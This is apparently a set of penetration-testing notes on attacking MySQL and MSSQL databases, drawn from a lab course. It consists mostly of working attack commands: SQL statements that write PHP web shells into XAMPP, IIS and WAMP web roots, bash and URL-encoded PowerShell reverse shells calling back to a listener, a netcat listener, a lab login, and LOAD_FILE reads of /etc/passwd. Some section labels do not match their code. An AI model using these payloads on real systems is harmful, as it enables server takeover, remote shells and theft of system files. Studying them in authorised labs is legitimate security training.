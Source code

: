 
## Enumeration

By default, MSSQL uses ports `TCP/1433` and `UDP/1434`, and MySQL uses `TCP/3306`. However, when MSSQL operates in a "hidden" mode, it uses the `TCP/2433` port. We can use `Nmap`'s default scripts `-sC` option to enumerate database services on a target system:

`
MySQL` default system schemas/databases:

- `mysql` - is the system database that contains tables that store information required by the MySQL server
- `information_schema` - provides access to database metadata
- `performance_schema` - is a feature for monitoring MySQL Server execution at a low level
- `sys` - a set of objects that helps DBAs and developers interpret data collected by the Performance Schema

```bash
mysql -u julio -pPassword123 -h 10.129.20.13
```

# USEFUL COMMANDS:

```mysql
SHOW DATABASES;
USE htbusers;
SHOW TABLES;
SELECT * FROM users;

```
#### MySQL - Write Local File

  Attacking SQL Databases

```MYSQL
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';

Query OK, 1 row affected (0.001 sec)
```

In `MySQL`, a global system variable [secure_file_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv) limits the effect of data import and export operations, such as those performed by the `LOAD DATA` and `SELECT … INTO OUTFILE` statements and the [LOAD_FILE()](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_load-file) function. These operations are permitted only to users who have the [FILE](https://dev.mysql.com/doc/refman/5.7/en/privileges-provided.html#priv_file) privilege.

`secure_file_priv` may be set as follows:

- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.

In the following example, we can see the `secure_file_priv` variable is empty, which means we can read and write data using `MySQL`:

#### MySQL - Secure File Privileges

  Attacking SQL Databases

```MYSQL
mysql> show variables like "secure_file_priv";

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+

1 row in set (0.005 sec)
```

To write files using `MSSQL`, we need to enable [Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option), which requires admin privileges, and then execute some stored procedures to create the file:

```sql
SELECT @@datadir;
SELECT @@basedir;
```
```sql
--XAMPP default
SELECT "<?php exec('/bin/bash -c \'bash -i >& /dev/tcp/10.10.14.174/4444 0>&1\''); ?>" INTO OUTFILE 'C:/xampp/htdocs/shell.php';
```
```sql
-- IIS default
SELECT "<?php exec('/bin/bash -c \'bash -i >& /dev/tcp/10.10.14.174/4444 0>&1\''); ?>" INTO OUTFILE 'C:/inetpub/wwwroot/shell.php';
```
```sql
-- Common alternate paths
SELECT "<?php exec('/bin/bash -c \'bash -i >& /dev/tcp/10.10.14.174/4444 0>&1\''); ?>" INTO OUTFILE 'C:/wamp/www/shell.php';
```
```sql
SHOW VARIABLES LIKE '%dir%';
```
```sql
---Rev shell
SELECT "<?php if(isset($_GET['cmd'])){ echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>'; } ?>" INTO OUTFILE 'C:/xampp/htdocs/cmd.php';

+
nc -lvnp 4444 
+

curl http://TARGET_IP/cmd.php?cmd=powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27LISTENER_IP%27%2C4444%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

#### MySQL - Read Local Files in MySQL

  Attacking SQL Databases

```sql
mysql> select LOAD_FILE("/etc/passwd");

+--------------------------+
| LOAD_FILE("/etc/passwd")
+--------------------------------------------------+
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync

<SNIP>
```
